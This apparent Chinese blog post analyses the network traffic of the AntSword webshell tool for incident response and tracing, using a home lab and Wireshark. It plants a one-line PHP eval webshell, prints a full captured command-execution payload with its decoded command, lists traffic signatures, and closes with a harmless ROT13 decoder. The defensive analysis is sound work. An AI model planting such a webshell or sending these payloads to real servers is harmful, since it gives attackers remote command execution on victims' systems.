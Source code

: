 ```yaml
---
title: "蚁剑流量分析和溯源"
description: "Webshell分析---蚁剑流量分析和溯源"
date: 2024-01-15
tags:
  - "webshell"
  - "蚁剑"
  - "流量分析"
  - "应急响应"
authors:
  - "bx33661"
draft: false
slug: "k8x9w22"
---
```


<meta name="referrer" content="no-referrer">



# 蚁剑流量分析和溯源

## 环境配置

:::info
采用的是 Ubuntu 虚拟机 加上 window + wireshark 的方式

:::

这里采用的桥连接

主要是配个 apache+php 环境

```bash
sudo apt update
sudo apt install apache2 -y
sudo apt install php libapache2-mod-php -y
sudo systemctl restart apache2
```

创建一个 PHP 漏洞

```bash
echo "<?php @eval(\$_POST['ant']); ?>" | sudo tee /var/www/html/shell.php
```

可以命令行查看 ip

```bash
ip addr
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744732099048-bd7444f5-55ef-4c0c-a0ca-ad982160e3ca.png)

打开 wireshark，，规则捕捉 VMnet8

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734750519-523f287c-2618-4fe1-9b03-4fd1acad7df9.png)

打开 yijian

连接 Ubuntu 漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734797818-575b20cc-9388-4414-a168-9d278ed44c44.png)

具体效果如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734712242-33d40c25-6b4c-4dda-b6f9-d89653532ba0.png)



## 流量特征分析

### 总结

1. 每个请求都以“0”开头
2. 对于响应包来说，我们采用默认的话，就是额外字符加返回结果，查询结果是随机数 结果 随机数

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733826623-0c816d10-6dd7-4578-87a6-374003b7788c.png)

3.  以 HTTP POST 请求为主  （这个其实都一样）
4.  请求体参数化，常带有随机键名  







### 测试过程

#### 执行命令

> 蚁剑与网站进行数据交互的过程中，发送的数据是经过编码器编码后再发送，支持的编码方式有default默认的、base64、chr、chr16、rot13；网站返回的数据经过解码器中的编码方式编码后返回，支持的编码方式有default、base64、rot13

解码和编码器都是 default

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733250271-1ea78baf-75b0-4bd0-8e39-efc744098d63.png)

```bash
whoami
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733204332-9836ef08-6a8a-4b55-8987-a3f283462ddc.png)

Wireshark 追踪 TCP 流

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733135947-8521b612-3df9-4830-83df-05960e60f0bf.png)

```plain
ant=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(base64_decode(%22Lzt8Oi8%3D%22)%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.c27656278a11%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%24tmdir%3Drealpath(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22fc689%22.%22900e3%22%3Becho%20%40asenc(%24output)%3Becho%20%2229eac8%22.%22fa1502%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22k1ec9ed6804696%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22k99eb9fde3781e%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22ndb0b51fc34194%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&k1ec9ed6804696=spL2Jpbi9zaA%3D%3D&k99eb9fde3781e=zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z
```

先 url 解码，比如说我们对最后一个 base64 处理

```plain
zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z

# 删除前面的zo

Y2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI
--->
cd "/var/www/html";whoami;echo a9008b3;pwd;echo a738e3db
```



#### chr 编码 + rot13 回显

> 其实总体来说，所以逻辑和格式都是一样的，就是发包和收包的编码格式不一样，我的理解是就是加一层编解码处理

情况如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734231165-2395ca2c-b668-49aa-a25c-002eea005734.png)

rot13 回显如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734390710-238abec6-a058-4f46-b096-f7ce8294b1bd.png)

解码如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734426799-d4397a64-b4fd-40b5-a5a3-a98e6ecde36f.png)



## 附件

### rot13 解码脚本

```python
import codecs

def rot13_decode(text):
    try:
        decoded_text = codecs.decode(text, 'rot_13')
        return decoded_text
    except Exception as e:
        print(f"解码时发生错误: {e}")
        return None

if __name__ == "__main__":
    while True:
        encoded_text = input("请输入要进行 ROT13 解码的文本 (输入 'quit' 退出): ")
        if encoded_text.lower() == 'quit':
            break
        decoded_result = rot13_decode(encoded_text)

        if decoded_result is not None:
            print(f"ROT13 解码结果: {decoded_result}\n")
    print("脚本已退出。")

def rot13_manual(text):
    result = []
    for char in text:
        char_code = ord(char)
        if 'A' <= char <= 'Z':
            new_code = ord('A') + (char_code - ord('A') + 13) % 26
            result.append(chr(new_code))
        elif 'a' <= char <= 'z':
            new_code = ord('a') + (char_code - ord('a') + 13) % 26
            result.append(chr(new_code))
        else:
            result.append(char)

    return "".join(result)

```

